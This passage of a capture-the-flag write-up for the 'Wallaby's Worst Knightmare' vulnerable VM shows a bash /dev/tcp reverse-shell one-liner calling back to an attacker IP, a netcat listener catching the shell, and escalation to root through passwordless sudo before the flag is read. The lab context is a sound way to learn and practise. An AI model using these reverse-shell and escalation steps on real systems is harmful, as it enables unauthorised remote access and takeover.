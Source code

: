 Now you can run code as wallaby!  
  
The .run command felt very tricky to me, initially I created a revsh payload
through msfvenom, uploaded it and ran it using the full path. I discovered
later an easier approach, discussed below.  
  
Let's get a shell by starting a listener on 8080 on our attacking machine,
then type the following:  
  

    
    
    .run bash -c "bash -i >& /dev/tcp/192.168.94.128/8080 0>&1"  
    

  

    
    
    root@kali:~# nc -nvlp 8080  
    listening on [any] 8080 ...  
    connect to [192.168.94.128] from (UNKNOWN) [192.168.94.131] 48748  
    bash: cannot set terminal process group (637): Inappropriate ioctl for device  
    bash: no job control in this shell  
    wallaby@ubuntu:~$ sudo -l  
    sudo -l  
    Matching Defaults entries for wallaby on ubuntu:  
        env_reset, mail_badpass,  
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
      
    User wallaby may run the following commands on ubuntu:  
        (ALL) NOPASSWD: ALL  
    wallaby@ubuntu:~$ sudo su  
    sudo su  
    whoami  
    root  
    cd /root  
    ls -al  
    total 48  
    drwx------  4 root root 4096 Dec 27 19:31 .  
    drwxr-xr-x 22 root root 4096 Dec 14 19:24 ..  
    drwxr-xr-x  2 root root 4096 Dec 27 11:27 backups  
    -rw-------  1 root root    1 Dec 27 12:26 .bash_history  
    -rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc  
    -rwxr-xr-x  1 root root  510 Dec 27 19:31 check_level.sh  
    -rw-r--r--  1 root root  342 Dec 16 16:52 flag.txt  
    -rw-------  1 root root   18 Dec 15 13:03 .mysql_history  
    drwxr-xr-x  2 root root 4096 Dec 15 13:10 .nano  
    -rw-r--r--  1 root root  148 Aug 17  2015 .profile  
    -rw-r--r--  1 root root   66 Dec 15 17:50 .selected_editor  
    -rw-r--r--  1 root root  214 Dec 16 17:09 .wget-hsts  
    cat flag.txt  
    ###CONGRATULATIONS###  
      
    You beat part 1 of 2 in the "Wallaby's Worst Knightmare" series of vms!!!!  
      
    This was my first vulnerable machine/CTF ever!  I hope you guys enjoyed playing it as much as I enjoyed making it!  
      